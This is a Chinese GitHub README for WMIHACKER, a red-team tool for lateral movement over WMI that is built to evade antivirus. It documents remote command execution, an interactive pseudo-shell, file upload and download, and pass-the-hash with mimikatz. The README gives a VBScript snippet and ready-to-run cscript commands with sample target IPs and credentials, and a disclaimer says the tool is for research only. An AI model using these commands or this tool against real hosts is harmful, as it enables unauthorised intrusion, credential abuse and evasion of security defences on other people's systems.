 # WMIHACKER(无需445端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

**联系我: _xiangshan(微信)**

免杀横向移动命令执行测试工具(无需445端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(无需445端口)

主要功能：1、命令执行；2、文件上传；3、文件下载；4、PTH使用

## 使用
合并[Issue 1](https://github.com/360-Linton-Lab/WMIHACKER/issues/1)里PTH的使用方法：

```vbscript
第54-58行代码：

if user = "-" And pass = "-" Then
set objWMIService = objLocator.connectserver(host,"root/cimv2")
Set SubobjSWbemServices = objLocator.ConnectServer(host, "root\subscription")
Set regWMIService = objLocator.ConnectServer(host, "root\default")

用户名和密码填“-”，结合mimikatz的PTH就可以进行WMI的PTH了。
```

```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `

## 404星链计划
<img src lazysrc="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)
